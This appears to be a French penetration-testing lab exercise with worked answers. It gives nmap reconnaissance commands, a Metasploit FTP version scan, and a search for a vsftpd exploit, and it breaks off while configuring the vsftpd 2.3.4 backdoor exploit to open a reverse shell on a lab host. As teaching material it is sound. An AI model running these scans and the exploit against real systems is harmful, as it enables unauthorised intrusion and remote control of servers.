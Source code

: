 #### 2. Appliquer un scan intensif de la machine cible afin de détecter les services et leurs versions.
- **Command:**
  ```bash
  nmap -sV -O 192.168.10.11
  ```
- **Justification:**
  - `-sV`: Detects service versions (e.g., Apache 2.4.41, OpenSSH 7.9).
  - `-O`: Performs OS detection.
  - This provides detailed service information for vulnerability assessment.

#### 3. Effectuer un scan de tous les ports de la machine cible.
- **Command:**
  ```bash
  nmap -p- 192.168.10.11
  ```
- **Justification:**
  - `-p-`: Scans all ports, ensuring no open ports are missed, which is critical for a thorough enumeration.

#### 4. Lancer un scan basique de vulnérabilités par un script Nmap NSE.
- **Command:**
  ```bash
  nmap --script vuln 192.168.10.11
  ```
- **Justification:**
  - `--script vuln`: Runs vulnerability detection scripts (e.g., identifying outdated services like FTP or HTTP vulnerabilities).

#### 5. Appliquer le module auxiliary/scanner/ftp/ftp_version de Metasploit pour identifier la version du serveur FTP.
- **Command:**
  ```bash
  msfconsole
  use auxiliary/scanner/ftp/ftp_version
  set RHOSTS 192.168.10.11
  run
  ```
- **Justification:**
  - `auxiliary/scanner/ftp/ftp_version`: Identifies the FTP server version (e.g., vsFTPd 2.3.4), aiding in exploit selection.

#### 6. On suppose que la version identifiée du serveur FTP est vsFTPd 2.3.
- a. Monter un commentaire cherchant un module d’exploit compatible avec cette version.
  - **Command:**
    ```bash
    search vsftp 2.3
    ```
  - **Justification:** The `search` command in Metasploit finds exploits matching "vsftp 2.3" (e.g., `exploit/unix/ftp/vsftpd_234_backdoor`).
- b. Qu’est-ce qu’un reverse Shell ?
  - **Answer:** A reverse shell is a connection where the target machine initiates a shell back to the attacker’s machine, allowing remote command execution.
  - **Justification:** This is useful when the attacker controls the listening port (e.g., using Netcat).
- c. Appliquer le module exploit/unix/ftp/vsftpd_234_backdoor pour lancer un reverse Shell sur le serveur.
  - **Command:**
    ```bash
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 192.168.10.11
    set LHOST 192.168.10.10